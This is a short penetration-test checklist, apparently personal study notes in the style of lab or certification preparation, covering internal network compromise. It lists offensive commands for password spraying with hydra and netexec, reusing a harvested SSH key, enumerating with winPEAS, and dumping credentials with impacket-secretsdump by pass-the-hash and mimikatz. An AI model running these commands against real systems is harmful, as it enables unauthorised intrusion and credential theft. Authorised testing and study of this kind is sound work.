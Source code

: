 # Penetration Test Checklist



## Web Application Testing



## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares



## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>





## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

## Popped a new Shell

#### Enumerate

* <pre><code><strong>$ .\winPEASx64.exe
  </strong></code></pre>

#### (PWNED) - Dump Secrets

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* ```powershell
  $ mimikatz
  ```

## Privilege Escalation

* [ ] PayloadAllTheThings&#x20;

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

## Lateral Movement

*
